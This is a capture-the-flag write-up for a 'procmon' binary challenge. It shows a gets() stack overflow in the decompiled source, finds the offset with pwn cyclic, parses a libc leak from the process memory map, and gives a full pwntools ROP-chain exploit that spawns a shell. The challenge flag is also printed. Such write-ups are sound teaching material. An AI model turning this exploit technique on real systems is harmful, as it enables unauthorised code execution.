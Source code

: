 # procmon

Author: nordbo

Flag: `EPT{overfl0w_in_th3_m0n1t0r}`

## Solve

The binary gives us 3 options. 
```sh
$ nc io.ept.gg 30001

Menu:
1. List all running processes
2. Get details for a given process
3. Exit
Enter your choice:
```


By listing all running processes we get this
```sh
Enter your choice: 1
USER       PID   COMMAND
ept        1     /bin/sh
ept        7     ./ynetd
ept        206   sh
ept        207   ./process_monitor
```

And by listing details for the `./process_monitor` process we get this
![](img1.png)
This is the entire virtual memory map of the process, and we can use this info to call functions in libc.

#### Reversing the binary
The `show_process_detail` function is vulnerable to a buffer overflow because of the use of `gets`
```c
void show_process_detail(void)

{
  int iVar1;
  char *pcVar2;
  char local_322 [10];
  char local_318 [512];
  char local_118 [256];
  FILE *local_18;
  uint local_c;
  
  printf("Enter the PID of the process: ");
  gets(local_322);
  local_c = atoi(local_322);
  snprintf(local_118,0x100,"/proc/%d/status",(ulong)local_c);
  local_18 = fopen(local_118,"r");
  if (local_18 == (FILE *)0x0) {
    perror("Could not fetch details");
  }
[...]
```


#### Finding offsett
By sending in a long enough pattern we get a segfault:
![](img2.png)

Then we find the offsett in pwndbg:
![](img3.png)
```sh
$ pwn cyclic -l 0x6163696161626961
802
```


#### Parsing libc
The next step was to parse the libc leak into the pwntools script. This took way to much time for me, and the function I created was pretty bad. I basically just called `io.recvline` until i got to the correct line where the libc base was located. I created one for local and one for remote. 
```python
def leaklibc():
    io.recvuntil(b"Enter your choice: ")
    io.sendline(b"1")

    if args.LOCAL:
        processes = b""
        for i in range(98):
            processes += io.recvline()
        find = re.findall(b"\n.*process_monitor.*\n", processes)[0]
        pid = find[len("\nkali       "):len("\nkali       ")+5]
        io.recvuntil(b"Enter your choice: ")
        io.sendline(b"2")
        io.recvuntil(b"Enter the PID of the process: ")
        io.sendline(pid)
        for i in range(16):
            io.recvline()
        
        return int(io.recvline()[:len("7fef1fb60000")], 16)

    else:
        processes = b""
        processes = io.recvline()
        processes += io.recvline()
        processes += io.recvline()
        processes += io.recvline()
        processes += io.recvline()
        processes += io.recvline()
        processes += io.recvline()

        
        pid = processes.split(b"\n")[4][len("ept        "):len("ept        ")+4]
        io.recvuntil(b"Enter your choice: ")
        io.sendline(b"2")
        io.recvuntil(b"Enter the PID of the process: ")
        io.sendline(pid)
        for i in range(16):
            io.recvline()
        return int(io.recvline()[:len("7fef1fb60000")], 16)
```


#### ROP-chain
From there on the solve was pretty standard. I created a ROP-chain with `pop rdi;ret`  `/bin/sh` `ret` and `system`
```python
libc = ELF("/home/kali/ctf/libc-database/db/libc6_2.35-0ubuntu3.4_amd64.so")
rop = ROP(libc)
io = start()

libcaddr = leaklibc()
log.info("Libc leak: " + hex(libcaddr))

libc.address = libcaddr
io.recvuntil(b"Enter your choice: ")
io.sendline(b"2")
io.recvuntil(b"Enter the PID of the process: ")

payload = b"A"*802
payload += p64(libcaddr + rop.find_gadget(['pop rdi', 'ret'])[0])
payload += p64(next(libc.search(b"/bin/sh")))
payload += p64(libcaddr + rop.find_gadget(['ret'])[0])
payload += p64(libc.sym.system)
io.sendline(payload)

io.interactive()
```

By running this we get a shell!
![](img4.png)


The entire solvescript can be found here: [exploit.py](exploit.py)
